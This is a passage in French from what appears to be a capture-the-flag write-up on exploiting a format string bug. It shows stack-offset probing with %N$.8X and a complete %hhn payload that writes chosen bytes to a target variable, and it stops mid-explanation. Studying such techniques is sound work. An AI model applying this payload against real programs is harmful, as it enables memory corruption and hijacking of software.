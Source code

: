 A noter que, même si j'ai fait l'exploitation en une seule passe, la boucle *while* permet si on le souhaite d'écraser chaque octet l'un après l'autre.  

Le principe du format *%hhn* (et de *%n* en général) est que l'on place sur la pile l'adresse où l'on veut écrire et que la quantité de données écrites sera placée à cette adresse.
Il faut d'abord déterminer où sera présente l'adresse que l'on place sur la pile. Pour cela je place *AAAA* et j'essaye d'obtenir *41414141* avec le format *%.8X* :  

```plain
Hello, what is your name?
AAAA%13$.8X
Nice to meet you AAAA41414120

Sorry, today is not your lucky day.
Hello, what is your name?
AAAAB%13$.8X
Nice to meet you AAAAB41414120

Sorry, today is not your lucky day.
Hello, what is your name?
AAAABB%13$.8X
Nice to meet you AAAABB41414120
```

On est gênés par ce qui doit être l'espace en fin de *"Nice to meet you "*.  

Du coup on cherche en position 14 et on continue de jouer sur le padding. Je passe à *BBBB* :  

```plain
Sorry, today is not your lucky day.
Hello, what is your name?
AAAABBBB%14$.8X
Nice to meet you AAAABBBB42424241

Sorry, today is not your lucky day.
Hello, what is your name?
AAABBBB%14$.8X
Nice to meet you AAABBBB42424242
```

Bingo ! 14ème position et 3 octets de padding. Ici le padding est fixe car la chaîne que l'on insère ne se retrouve pas dans *argv*.  

Comme on écrit en une seule fois, le comptage des caractères n'est pas remis à zéro à chaque *%hhn*. On va donc écrire dans l'ordre les valeurs 0x31 (49), 0x33 (51), 0x7B (123) et 0xEF (239).  

La chaine d'exploitation aura cette aspect :  

```plain
PPPAAAABBBBCCCCDDDD%30X%14$hhnZZ%15$hhn%72X%16$hhn%116X%17$hhn
```

Soit 3 octets de padding, 4 fois 4 octets pour les 4 adresses à écrire (les 4 octets pris par l'entier de *pWinning*).  

A ce stade on a 19 octets, il en manque 30 pour la première valeur (49) d'où le *%30X*.  

Pour aller de 49 à 51 il faut 2 caractères. On les place directement (*ZZ*).  
